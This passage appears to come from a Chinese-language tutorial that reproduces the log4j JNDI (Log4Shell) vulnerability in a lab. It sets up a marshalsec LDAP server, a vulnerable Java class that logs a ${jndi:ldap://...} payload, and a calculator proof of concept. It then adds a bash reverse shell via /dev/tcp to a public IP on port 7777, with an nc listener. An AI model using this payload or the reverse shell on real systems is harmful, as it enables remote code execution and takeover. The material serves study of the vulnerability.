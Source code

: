 #### LDAP 服务
使用 marshalsec 提供的工具来直接搭建 LDAP 服务
```shell
git clone https://github.com/mbechler/marshalsec.git
cd marshalsec
mvn clean package -DskipTests # 通过 maven 构建

java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar \
    marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"
```
这个 LDAP 服务直接提供了对 8888 端口中的 Exploit 类文件的重定向访问，端口在默认的 1389。

#### log4j 漏洞应用
编写一个只调用了 log4j 记录 ${jndi:ldap://127.0.0.1:1389/Exploit} 的类（这个 payload 一般是由用户输入获取的，但这里方便复现直接硬编码到漏洞应用中了，二者本质是一样的），代码如下：
```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;


public class log4j {
    private static final Logger logger = LogManager.getLogger(log4j.class);

    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","true");
        logger.error("${jndi:ldap://127.0.0.1:1389/Exploit}");
    }
}
```
注意因为是高版本 JDK，所以需要手动开启 com.sun.jndi.ldap.object.trustURLCodebase 选项。

#### 复现攻击
前面已经正常开启了 LDAP 服务，所以漏洞应用运行时可以直接加载到 Exploit 类，执行其中静态代码。因为其中通过 exec 执行了 open /System/Applications/Calculator.app 命令，所以会弹出计算器应用。
![](/assets/images/cs/web/log4j_vuln/ldap_calc.png)

可以看到 LDAP 服务端输出了一条发送 LDAP 引用的语句，说明 log4j 应用确实连接了 LDAP 服务端并获取了 Exploit.class 类文件。而且因为其中的静态代码通过 exec 执行了 open /System/Applications/Calculator.app 命令，所以看到弹出了计算器，说明了这个静态代码确实被执行了。这也就复现了这个漏洞。

接下来更换一下 exec 执行的命令，来实现反弹终端。

首先在远程公网服务器（ip 是 47.103.43.32）通过 nc -lnvvp 7777 在 7777 端口监听，用来捕获反弹的终端。然后更改攻击类代码：
```java
String[] cmds = {"/bin/bash", "-c", "bash -i >& /dev/tcp/47.103.43.32/7777 0>&1"};
java.lang.Runtime.getRuntime().exec(cmds).waitFor();
```
即通过 /dev/tcp 设备将 bash 的输入输出流重定向到公网服务器上，实现 get shell。运行 log4j 漏洞应用：
![](/assets/images/cs/web/log4j_vuln/ldap_getshell.png)

由图可以看出，远程服务器已经连接上了当前运行 log4j 漏洞应用的 macOS 主机。

#### 调用栈分析
通过调试运行 log4j 漏洞应用可以获取到整个程序的调用栈：
```java
<clinit>:11, Exploit
forName0:-1, Class (java.lang)
forName:348, Class (java.lang)
loadClass:91, VersionHelper12 (com.sun.naming.internal)
loadClass:101, VersionHelper12 (com.sun.naming.internal)
loadClass:115, VersionHelper12 (com.sun.naming.internal)
getObjectFactoryFromReference:163, NamingManager (javax.naming.spi)
getObjectInstance:189, DirectoryManager (javax.naming.spi)
c_lookup:1114, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
```